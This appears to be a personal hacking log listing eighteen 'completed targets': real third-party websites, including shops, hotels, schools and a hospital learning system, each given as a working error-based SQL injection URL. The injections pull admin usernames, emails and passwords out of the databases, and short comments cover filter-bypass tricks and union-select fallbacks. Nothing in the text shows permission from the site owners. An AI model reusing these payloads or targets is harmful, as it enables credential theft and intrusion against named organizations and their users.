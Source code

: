# <mark style="background: #FF5582A6;">Prerequisite :</mark> 

Knowing How To Work With Burp Suite 
[[12-Xpath Injection]]
[[13-Double Query]]

# <mark style="background: #FFB86CA6;">Completed Targets : </mark> 

1. https://www.maapet.com/gallery-list.php?id=-15%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(password)%20from%20admin_login%20limit%200,1)))--+

	

2. http://hiriketiyabeach.lk/room-view.php?id=1%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(username)%20from%20user%20limit%200,1)))--

	

3. http://firoozgar.behkima.ir/lms/view.php?id=22590%27%20and%20updatexml(null,concat(0x3a,(select%20concat(user_email)%20from%20ap_users%20limit%200,1)),null)--+

	

4. https://www.pharmacongignos.in/product.php?id=9%20&%20cat_id=%203%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(admin_name)%20from%20administrators%20limit%200,1)))--+

	

5. https://www.pbw-india.com/category.php?id=2%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(user_email)%20from/**/user_info%20limit%200,1)))*/--

	

6. https://www.jasmineexports.com/category.php?catid=2%20and%20extractvalue(rand(),concat(0x7e,(select%20column_name%20from%20information_schema.columns%20where%20table_name=%27tbladmin%27%20limit%202,1)))--

	(it didin't have a column for the name of the user, but it had the loginid column)

	

7. https://www.htps.edu.hk/en/school.php?id=19%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(usr_name)%20from%20usr%20limit%200,1)))--+

	

	- (https://www.htps.edu.hk/en/school.php?id=19%27%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(usr_pwd)%20as%20char),0x7e))%20from%20holytrinity.usr%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+)

8. https://www.lkh.com.sg/news.php?id=3%20and%20updatexml(null,concat(0x3a,(select%20concat(user_name)%20from%20user%20limit%200,1)),null)--

	

	(when we delete the 0x3a to show the password as complete, the site loaded without any error and it doesn't have [[13-Double Query]])

9. https://acebaypointe.com/post.php?id=28%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/tbl_user%20limit%200,1)))*/--

	

10. http://sinchung.com.my/tour.php?id=26%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(username)%20from%20control_login%20limit%200,1)))--+

	

11. http://www.saleemcarpets.com/prod_detail.php?ID=10%27%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/user%20limit%200,1)))*/--+

	

	<mark style="background: #FF5582A6;">Point :</mark> 
	when we delete the 0x7e to show the password as complete, the site loaded without any error)
	(it doesn't have [[13-Double Query]], only the combined way with
	[[02-Sql Injection (Basic)]] may work, in this way, we have found the name of the important table and the important columns, so we extract the information we want as follow :
	- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,password,7,8,9 from admin--</mark> 

12. http://stpbusiness.st/single.php?id_p=30%27%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(email)%20from%20usuario%20limit%200,1)))--+

	
	(when we delete the 0x7e to show the password as complete, the site loaded without any error) ---> [[13-Double Query]]

	

	- http://stpbusiness.st/single.php?id_p=30%27%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(senha)%20as%20char),0x7e))%20from%20stpbusiness.usuario%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+

13. https://www.satoribike.com/pro.php?m=d&pid=80&cid=15&f=14%27%20and%20/*!12345extractvalue(rand(),CONCAT(0x7e,(select%20CONCAT(username)%20from/**/managers_eng%20limit%200,1)))*/--+

	

14. http://artworkshop.co.uk/newsdetail.php?NewsID=160%20and%20extractvalue(rand(),concat(0x7e,(select%20concat(Email)%20from%20members%20limit%200,1)))--

	
	(when we delete the 0x7e to show the password as complete, the site loaded without any error) ---> [[13-Double Query]]

	

	- http://artworkshop.co.uk/newsdetail.php?NewsID=160%20and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(password)%20as%20char),0x7e))%20from%20kdyrsxni_db1.members%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--

15. https://www.promare.be/shop.php?id=1%27%20and%20updatexml(null,concat(0x3a,(select%20concat(password)%20from%20%20tbl_login%20limit%200,1)),null)--+

	

16. http://www.embryohotel.com/room-detail.php?id=1%20And(select%201%20from(select%20count(*),concat(0x3a,(select%20substr(group_concat(username,0x3a,password),1,150)%20from%20admin%20where%20table_schema%20like%20database()),0x3a,floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)z)--%20-
	
	

17. http://www.altcine.com/movie.php?id=-1940%27and%20(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(password)%20as%20char),0x7e))%20from%20altcine_mems.users%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)--+

	

18. http://www.marywardlubhu.edu.np/school.php?id=168&cat_id=23%27%20and%20extractvalue(rand(),concat((select%20concat(username)%20from%20tbl_admin%20limit%200,1)))--+

	